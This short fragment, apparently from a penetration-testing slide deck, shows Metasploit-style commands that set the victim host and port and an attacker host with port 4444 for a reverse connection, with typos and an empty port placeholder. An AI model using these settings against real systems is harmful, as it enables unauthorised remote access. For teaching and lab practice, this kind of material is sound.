

# Configure Exploit Options
set RHOST 192.168.3.101 – Vitim IP
set RPORT 9191 – Vitim Port of which the server is running in port number <>
set LHOST 192.168.3.100 – Attacker IP
set LPORT 4444 – Attacker Port to reverse connect
set VERBOSE true – For detailed output of attack